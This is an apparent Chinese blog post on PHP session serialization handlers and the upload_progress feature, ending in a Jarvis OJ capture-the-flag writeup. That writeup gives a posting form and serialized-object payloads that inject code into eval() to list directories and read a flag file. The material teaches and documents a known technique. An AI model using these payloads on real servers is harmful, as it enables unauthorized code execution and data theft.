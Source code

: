 ## session的存贮以及序列化以及漏洞
### 储存session
每个session标签对应着一个`$_SESSION`键-值类型数组，数组中的东西需要存储下来，首先需要序列化。
在php中session有三种序列化的方式，分别是php_serialize,php和php_binary
serializer | 实现方法
:--- | :---
php | 键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值
php_binary | 键名的长度对应的 ASCII 字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值
php_serialize | 把整个`$_SESSION`数组作为一个数组序列化

然后session序列化后需要储存在服务器上，默认的方式是储存在文件中，储存路径在`session.save_path`中，如果没有规定储存路径，那么默认会在储存在`/tmp`中，文件的名称是'sess_'+session名，文件中储存的是序列化后的session。
### php序列化机制
* String
`s:size:value;`
* Integer
`i:value;`
* Boolean
`b:value; (does not store "true" or "false", does store '1' or '0')`
* Null
`N;`
* Array
`a:size:{key definition;value definition;(repeated per element)}`
* Object
`O:strlen(object name):object name:object size:{s:strlen(property name):property name:property definition;(repeated per property)}`

> 如果序列化一个对象，那么序列化的时候会调用`__sleep()`魔术方法，在反序列化时会调用`__wakeup()`魔术方法。

所以，如果我们有机会构造反序列化的东西，我们就有可能可以执行某些类的`__wakeup`和`__distruct()`方法。
> CVE-2016-7124
当对象标称成员个数多于实际成员个数时，会跳过`__wakeup()`方法，但是任然会执行`__destruct()`方法。
影响版本：PHP5 < 5.6.25   PHP7 < 7.0.10

如果在序列化字符串后面添加其他字符，该序列化字符串仍能反序列化成功。
### 设置session序列化方法中可能带来的隐患
我们现在先写一个对session写入的php脚本
```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$name = $_GET['name'] ? $_GET['name'] : "name";
$value = $_GET['value'] ? $_GET['value'] : "value";
$_SESSION[$name] = $value;

if(isset($_GET['clean'])) session_destroy();
```
> 服务器中默认的session序列化器是php

我们对其传入一个`value=|s:5:"hack!";`，这时，session文件中储存的内容就会变成：
`a:1:{s:4:"name";s:13:"|s:5:"hack!";";}`
这在`php_serialize`中是一个数组，包含一个元素，但是如果另一个php页面没有设置相同的的序列化器，则会使用默认的序列化器php。如果用php序列化器解释session文件中的内容，|前的部分被解析为键，|后的部分被解析为值。对|后的部分进行分序列化，`s:5:"hack!";`会被解析字符串"hack!"，之后的`";}`会被直接忽略掉。
所以在另一个页面中我们session的内容就是`Array ( [a:1:{s:4:"name";s:13:"] => hack! ) `，这就提供给了我们利用反序列化漏洞的机会。

## php的upload_progress功能简述
[upload_progress](http://php.net/manual/zh/session.upload-progress.php)的目的是检测一个文件的上传进度，当然这个进度对上传没有什么用，但是可以允许客户端通过API获取当前的上传进度。在`session.upload_process.enabled`开启时会启用这个功能，在php.ini中会默认启用这个功能。
使用方法大体是这样，在POST一个文件之前，先传一个name为`session.upload_progress.name`（默认为`PHP_SESSION_UPLOAD_PROGRESS`）,value为用户自定义的一个upload_id。在文件上传的过程中，php会在session中生成一个上传信息，它在session中的键是`session.upload_progress.prefix`加上用户自定义的upload_id。在上传结束后这个session中的键值对会直接消失。下面是一个官方给的例子：
```php
<form action="upload.php" method="POST" enctype="multipart/form-data">
 <input type="hidden" name="<?php echo ini_get("session.upload_progress.name"); ?>" value="123" />
 <input type="file" name="file1" />
 <input type="file" name="file2" />
 <input type="submit" />
</form>
```
session中储存的值为：
```php
<?php
$_SESSION["upload_progress_123"] = array(
 "start_time" => 1234567890,   // The request time
 "content_length" => 57343257, // POST content length
 "bytes_processed" => 453489,  // Amount of bytes received and processed
 "done" => false,              // true when the POST handler has finished, successfully or not
 "files" => array(
  0 => array(
   "field_name" => "file1",       // Name of the <input/> field
   // The following 3 elements equals those in $_FILES
   "name" => "foo.avi",
   "tmp_name" => "/tmp/phpxxxxxx",
   "error" => 0,
   "done" => true,                // True when the POST handler has finished handling this file
   "start_time" => 1234567890,    // When this file has started to be processed
   "bytes_processed" => 57343250, // Amount of bytes received and processed for this file
  ),
  // An other file, not finished uploading, in the same request
  1 => array(
   "field_name" => "file2",
   "name" => "bar.avi",
   "tmp_name" => NULL,
   "error" => 0,
   "done" => false,
   "start_time" => 1234567899,
   "bytes_processed" => 54554,
  ),
 )
);
```
这个功能非常具有实用性，[但是在使用条件方面是相当苛刻的](https://stackoverflow.com/questions/12071358/how-to-make-php-upload-progress-session-work)。首先如果你是通过fastcgi使用PHP则完全不能使用这个功能，标志使用upload_progress的字段必须在文件之前，自定义session name可能会出现问题，因为这个处理是在php脚本运行之前处理的，存入的是默认的php session。还有最重要的一点，POST数据必须是实时发送给PHP的，否则PHP根本不可能监控文件上传，但是有很多web服务器都自带缓存功能，在整个文件POST完成的时候把数据发送给PHP，比如nginx啦，在服务端装了个nginx的反向代理肯定是不行的；在评论区有人说Apache2也需要关掉mod_mpm_prefork.so，但是我a2dismod mpm_prefork之后Apache直接报错挂了（砸），所以至今没有成功的使用这个功能。
>Secondly - in apache, don't use mod_mpm_prefork.so
That was the problem I had, that's the default in CentOS 7.
The problem is it causes Apache to wait with any additional requests until the upload is finished.

但是我们关注一下这个设置参数`session.upload_progress.cleanup`，这个选项的意思是上传完成时从session中清除上传进度信息，默认为开启，如果将其关闭的化，这个上传进度信息会一直留在session中，把这个选项关掉后我终于复现成功了，在session中读取了以下信息：
```
Array
(
    [upload_progress_ryat] => Array
        (
            [start_time] => 1535375683
            [content_length] => 326
            [bytes_processed] => 326
            [done] => 1
            [files] => Array
                (
                    [0] => Array
                        (
                            [field_name] => file
                            [name] => BrunuhVille - Timeless.torrent
                            [tmp_name] => /tmp/phpI3trrB
                            [error] => 3
                            [done] => 1
                            [start_time] => 1535375683
                            [bytes_processed] => 326
                        )

                )

        )

)
```
所以最终通过upload_progress，我们可以有限的更改session。
### Jarvis OJ PHPINFO writeup
拿到源码我们发现，存在一个对象，销毁的时候会eval一个成员变量，并且注释提示我们a webshell is waiting for you。我们猜到是要用eval弹一个webshell，同时我们可以查看phpinfo，在phpinfo中我们找到了一下关键的信息：
`session.serialize_handler`的master_value(在php.ini)中设置的值是php_serialize，然后在脚本启动时把这个值设置为php，这给我们提供了利用序列化器的不同进行实体注入的机会。
但是我们要找到一个写入session的机会，我们注意到`session.upload_progress.enabled`是开启的，同时`session.upload_progress.cleanup`是关闭的，所以upload_progress创建的session信息会已知一直在session中。
所以我们先创建一个辅助网页进行POST
```html
<form action="http://web.jarvisoj.com:32784/" method="POST" enctype="multipart/form-data">
<input name="PHP_SESSION_UPLOAD_PROGRESS" type="text">
<input type="file" name="file">
<input type="submit">
</form>
```
在upload_process中我们有两个途径改变session的值，一个是`PHP_SESSION_UPLOAD_PROGRESS`的值，它session键的一部分，另一个是文件名，在这里我们选择前者，因为比较方便。
因为目标服务器中session系列化器的全局设置是php_serialize， 所以upload_progress会用php_serialize的方式创建session文件，在执行index.php时，index.php先把序列化器设为php，然后session_start()，读取session文件。之前说过php序列化器，|前为键，|后为值，并且反序列化值的时候，会无视后面的东西，所以我们只需要在session中构造`|序列化后的字符串`就能成功进行php实体注入。
于是我们可以构造如下payload：

- `|O:5:"OowoO":1:{s:4:"mdzz";s:18:"print_r(__FILE__);";}`
	获取网页根目录`/opt/lampp/htdocs`
- `|O:5:"OowoO":1:{s:4:"mdzz";s:39:"print_r(scandir('/opt/lampp/htdocs/'));";}`
	获取储存flag的文件`Here_1s_7he_fl4g_buT_You_Cannot_see.php`
- `|O:5:"OowoO":1:{s:4:"mdzz";s:84:"echo file_get_contents('/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php');";}`
	读出flag